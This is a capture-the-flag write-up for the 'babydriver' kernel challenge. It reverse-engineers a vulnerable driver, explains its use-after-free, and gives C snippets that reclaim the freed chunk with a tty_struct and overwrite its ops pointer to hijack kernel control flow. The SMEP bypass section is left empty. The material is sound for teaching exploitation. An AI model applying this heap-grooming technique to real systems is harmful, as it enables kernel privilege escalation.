






# babydriver (kernel, uaf, tty_struct, smep, -smap, -kaslr)
This was my third kernel challenge and first in which I had to exploit use after free vulnerability. I will not explain here what bzImage/*.cpio files are as I've did this in [previous](https://github.com/kscieslinski/CTF/tree/master/pwn/hacklu2019/BabyKernel2) kernel writeup.

## Enumeration
### Looking inside
I've started with unpacking provided files and looking inside rootfs.cpio:

```console
$ tar -xf babydriver_0D09567FACCD2E891578AA83ED3BABA7.tar
$ ls
boot.sh  bzImage  rootfs.cpio
$ mkdir extracted
$ cd extracted
$ zcat ../rootfs.cpio | cpio -idvm .
.
etc
etc/init.d
etc/passwd
etc/group
bin
bin/su
bin/grep
bin/watch
[...]
$ ls lib/modules/4.4.72/
babydriver.ko
```

So as usuall, we are given kernel compressed image (bzImage) along with filesystem (rootfs.cpio) in which we can find kernel module binary (babydriver.ko).

Unfortunately we are not given vmlinux nor System.map. Both would be really helpful when debugging.

### RE
Having kernel module binary I've opened it under Ghidra. The reverse engineering part was super easy.

```c

struct babydev_t {
    char *device_buf;
    size_t device_buf_len;
};

struct babydev_t babydev_struct;


int babyopen(void *inode,void *filep)
{
  babydev_struct.device_buf = (char *)kmalloc(0x40, GFP_KERNEL);
  babydev_struct.device_buf_len = 0x40;
  printk("device open\n");
  return 0;
}

int babyrelease(void *inode,void *filep)
{
  kfree(babydev_struct.device_buf);
  printk("device release\n");
  return 0;
}

ssize_t babyread(struct file *filep, char *__user buff, size_t count, loff_t *offp)
{
    if (babydev_struct.device_buf && babydev_struct.device_buf_len >= count)
    {
        copy_to_user(buf, babydev_struct.device_buf, count);
    }

    return 0;
}

ssize_t babywrite(struct file *filep, char *__user buff, size_t count, loff_t *offp)
{
    if (babydev_struct.device_buf && babydev_struct.device_buf_len >= count)
    {
        copy_from_user(babydev_struct.device_buf, buf, count);
    }

    return 0;
}

long babyioctl(struct file *filep, unsigned int cmd, unsigned long arg)
{
    if (cmd == 0x10001)
    {
        kfree(babydev_struct.device_buf);
        babydev_struct.device_buf = (char *)kmalloc(arg, GFP_KERNEL);
        babydev_struct.device_buf_len = arg;
        printk(KERN_INFO "alloc done\n");
        return 0;
    }
    else
    {
        printk(KERN_INFO "default arg is %lx\n", 0x10001);
        return -EINVAL;
    }
}
```

There is one global variable: `babydev_struct`. When opening a device we allocate a buffer of size 0x40 and when closing we free this buffer. Moreover we can write to and read from a buffer and resize it.


### UAF
Of course this is very bad and vulnerable example of code. One should use a `private_data` field of `struct file` for allocating custom per open data.

Why above code is vulnerable? Well, imagine we open `/dev/babydev` twice and then close it once:

```c
int fd1 = open("/dev/babydev", O_RDWR, 0);
int fd2 = open("/dev/babydev", O_RDWR, 0);
close(fd1);
```

 On first call to open a buffer (let's name it buffer1) of size 0x40 gets allocated and we get a handle fd1. On second call to open we allocate new buffer (name it buffer2), get handle fd2 and we just loose track of the previous one. As c has no garbage collector this leads to memory leaks but it is not vulnerable itself. But then we call close(fd1) and we free the buffer2. The memory chunk gets placed back to kmalloc_cache but we still can access it via fd2. This is standard example of use-after-free vulnerability.

## Exploit
As I had no experience with exploiting use-after-free I used [lexfo](https://blog.lexfo.fr/cve-2017-11176-linux-kernel-exploitation-part1.html) tutorial a lot.ne I really recommend it to anyone who want's to start with kernel exploitation. Moreover I saw some writeups later on and it seems that there is another way to repair the stack with `swapgs` gadget.

### Gaining control over RIP via tty_struct
Above in UAF section I've presented a situation where a freed memory chunk gets placed back in kmalloc_cache but we can still write and read on it. To gain control over execution flow we have to force kernel allocator (SLUB) to allocate some object we have control over on the chunk we freed. There are standard techniques for this. One of them is using `tty_struct` object of size 0x2e0 for this (0x2e0 will land in bucket: 2^10).

```c
int fd1 = open("/dev/babydev", O_RDWR, 0);
int fd2 = open("/dev/babydev", O_RDWR, 0);

ioctl(fd1, 0x10001, 0x2e0); // resize, so chunk get placed in right bucket

close(fd1);

int tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY, 0); // alocates tty_struct of size 0x2e0


```

If you are having troubles imagine how it looks like, I've created a diagram to help you. 
This is how a situation looks like after executing `int fd1 = open("/dev/babydev", O_RDWR, 0);`. 



As you can see, the buffer1 of size 0x40 got allocated and we can write/read from it using fd1 descriptor.

Then we open /dev/babydev again: `int fd2 = open("/dev/babydev", O_RDWR, 0);`



And same as before, a new buffer2 gets allocated. We loose track of buffer1, but it doesn't get returned to SLUB allocator as it wasn't directly freed. The super important part here is that we can write/read from the buffer using both fd1 and fd2!!!

Then we just call resize with `ioctl` operation: `ioctl(fd1, 0x10001, 0x2e0);`:



so that when freed, the memory chunk the buffer3 occupies will be placed back to bucket 2^11.

Now we close fd1 with `close(fd1);`:



The buffer3 gets freed and returned to SLUB allocator. SLUB allocator will then place it inside kmalloc_cache_cpu or inside one of slabs inside kmem_cache_node (in first situation our exploit has more chance to succeed). At the same time we cannot write/read from buffer using fd1 anymore, but we can write/read from buffer using fd2!!!

Now we allocate a struct tty_struct of size 0x2e0 by opening /dev/ptmx: `int tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY, 0);`. You can read more about it [here](https://linux.die.net/man/4/ptmx):



As you can see, tty_struct got filled with some data. The interesting field for us is `const struct tty_operations*` which is a pointer to virtual function table. Anytime user invokes a function such as `ioctl`, a kernel will use this pointer to find vtable and then will invoke an `ioctl` function from it:

```c
struct tty_operations {
	struct tty_struct * (*lookup)(struct tty_driver *driver,
			struct file *filp, int idx);
	int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    [...]
	int  (*ioctl)(struct tty_struct *tty,
    [...]
};

struct tty_struct {
	int	magic;
	struct kref kref;
	struct device *dev;
	struct tty_driver *driver;
	const struct tty_operations *ops;
    [...]
};
```

But remember, we still can access buffer3 and so we can overwrite tty_struct. We will overwrite tty_struct.ops field to point to fake vtable which we will create before. Our payload:

```c
#define TTY_HDR_SIZE 0x20

int fd1 = open("/dev/babydev", O_RDWR, 0);
int fd2 = open("/dev/babydev", O_RDWR, 0);

ioctl(fd1, 0x10001, 0x2e0); // resize, so chunk get placed in right bucket

close(fd1);

int tty_fd = open("/dev/ptmx", O_RDWR | O_NOCTTY, 0); // alocates tty_struct of size 0x2e0

struct tty_operations fake_tty_operations;
memset(fake_tty_operations, 0x41, sizeof(struct tty_operations));

char fake_tty_header[TTY_HDR_SIZE];
read(fd2, fake_tty_header, sizeof(fake_tty_header); // read first not to overwrite any other values
/* Overwrite tty_operations field of struct tty pointer to point to fake_tty_operations vtable. */
*((uint64_t *)fake_tty_header + 3) = (uint64_t)fake_tty_operations;
write(fd2, fake_tty_header, sizeof(fake_tty_header);

/* triger arbitrary call */
ioctl(tty_fd, 0, 0);
```

After write and before ioctl our memory layout looks like:



and so when calling `ioctl(tty_fd, 0, 0)` a function under 12 index in fake_tty_operations will get called. In this case it would cause kernel panic as smep is enabled and perhaps memory under 0x4141414141414141 is not mapped.


### Protections
To check software and hardware protections I've checked `boot.sh` file:

```bash
#!/bin/bash

stty intr ^]
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -enable-kvm -monitor /dev/null -m 64M --nographic  -smp cores=1,threads=1 -cpu kvm64,+smep
```

Note: I've added `stty intr ^]` so that I can eassly kill qemu on kernel panic.

So from reading `boot.sh` we can determinate that there is a hardware protection `smep` (Supervisor mode execution protection), but fortunetely there is no `kaslr` (kernel address space layout randomization) turn on.

This means that we will have to bypass `smep` before invoking userland code as smep does not allow kernel to execute code from userland.

### Plan


## References:
- https://blog.csdn.net/lukuen/article/details/6935068